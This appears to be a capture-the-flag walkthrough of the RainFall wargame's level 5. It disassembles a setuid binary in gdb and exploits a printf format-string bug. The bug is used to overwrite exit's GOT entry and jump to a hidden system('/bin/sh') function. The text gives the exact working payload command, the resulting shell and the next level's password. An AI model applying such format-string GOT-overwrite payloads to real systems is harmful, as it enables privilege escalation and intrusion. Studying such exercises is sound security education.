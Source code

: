 # Level 5

- We login as user level5:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ gdb level5
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```


- Let's identify the calls and jump by execution order:
```
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049848 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`
>buffer size is 0x200 bytes
>buffer starts at `-0x208(%ebp)`
>Prompt the user for up to 512 bytes.

```
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
```
>Call `<printf@plt>` with our buffer.


```
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```
> Call `exit()`


- Thanks to `<printf@plt>`, we can redirect the program's execution flow by modifying the behavior of `call 0x80483d0 <exit@plt>`.
```
(gdb) x 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) x/x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
(gdb) x/2i 0x080483d6
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```


- When the program executes `call 0x80483d0 <exit@plt>`, it actually `jmp` to the instruction located at the address contained in `0x8049838`, which is at `0x80483d6`, where it will execute `push $0x28`.
By changing the value stored at address `0x8049838`, you can redirect the program's execution flow. You could, therefore, make it execute shellcode instead, but if you `(gdb) info functions`:
```
All defined functions:

Non-debugging symbols:
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
```

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
>`0x80485f0:       "/bin/sh"`


- Look! A function that is not called anywhere but calls `system("/bin/sh")`! By putting the value `0804 84a4` into `0x8049838`, the program's execution should be redirected to this function.
>Low order bytes = 84a4 (33 956 in decimal)
>High order bytes = 0804 (2052 in decimal)
>`\x40\x98\04\x08\x38\x98\x04\x08 %VALUE1x %4$hn %VALUE2x %5$hn`
>`VALUE1 (0x8049840)` ==> 2052 - 8 bytes for the addresses - 2 bytes for the spaces = 2042
>`VALUE2 (0x8049838)` ==> 33 956 - 2052 - 2 bytes for the spaces = 31 902

- So:
```
level5@RainFall:~$ (echo -ne '\x40\x98\04\x08\x38\x98\x04\x08 %2042x %4$hn %31902x %5$hn'; cat) | ./level5
...
whoami
level6

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
